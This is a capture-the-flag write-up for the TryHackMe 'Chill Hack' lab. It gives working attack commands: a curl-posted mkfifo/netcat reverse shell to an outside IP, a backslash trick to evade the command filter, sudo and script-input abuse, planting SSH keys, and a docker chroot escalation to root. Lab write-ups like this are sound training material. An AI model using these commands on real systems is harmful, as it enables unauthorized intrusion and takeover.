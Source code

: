 # Chill Hack (THM)

- https://tryhackme.com/room/chillhack
- March 6, 2023
- easy

---

## Enumeration

### Nmap

1. 21/ftp vsftpd 3.0.3
   - anonymous login allowed
2. 22/ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
3. 80/http Apache httpd 2.4.29 ((Ubuntu))
4. 1027/tcp IIS
5. 2038/tcp objectmanager

### FTP

- login with anonymous user and get note.txt

```
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```

### HTTP

- brute force with ffuf
- `secret` directory found
- command execution can be done

## User Access

- listen nc at local machine and execute get shell

```
$ nc -nlvp 4242
$ curl http://$IP/secret/ -X POST -d "command=rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.57 4242 >/tmp/f"

```

- but it is restricted
- try to bypass by experimenting with

```
which python3
which nc
ls -la
```

- and found that adding `\` bypass
- get reverse shell by adding random \ in above command

```
r\m -f /tmp/f;mkfi\fo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|n\c 10.11.8.57 4242 >/tmp/f
```

```sh
$ whoami
www-data
$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh

```

```sh
$ cat /home/apaar/.helpline.sh
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```

- run msg input as /bin/bash

```sh
$ sudo -u apaar /home/apaar/.helpline.sh

Welcome to helpdesk. Feel free to talk to anyone at any time!

anything
/bin/bash

whoami
apaar
python3 -c "import pty; pty.spawn('/bin/bash');"
apaar@ubuntu:/tmp$
```

- to get ssh shell,
  - create ssh-keygen in local machine
  - copy contents from id_rsa.pub
  - paste as /home/apaar/.ssh/authorized_keys
- can enter as apaar user with id_rsa

- there is also local running processes

![](images/2023-03-06-22-35-28.png)

- local webservice is running at port 9001
- use ssh port forwarding to our local machine

```sh
$ ssh -L 9001:127.0.0.1:9001 apaar@$IP -i id_rsa
```

- we can access the webservice at our machine `localhost:9001`

![](images/2023-03-06-22-38-36.png)

- use classical sql injection and redirect to hacker.php page

![](images/2023-03-06-22-39-18.png)

- get the hacker-with-laptop picture and analyse it.
- with stegovertias, one zip file came out

![](images/2023-03-06-22-43-51.png)

- extract with password and source_code.php file extracted.

- in source_code.php, base64 encoded text `IWQwbnRLbjB3bVlwQHNzdzByZA==` which may be `anurodh` password
- change into anurodh user

## Root Access

```sh
anurodh@ubuntu:/tmp$ id
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)

# anurodh can run docker
# in gtfobins, docker shell
anurodh@ubuntu:/tmp$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
$ whoami
root

```

---
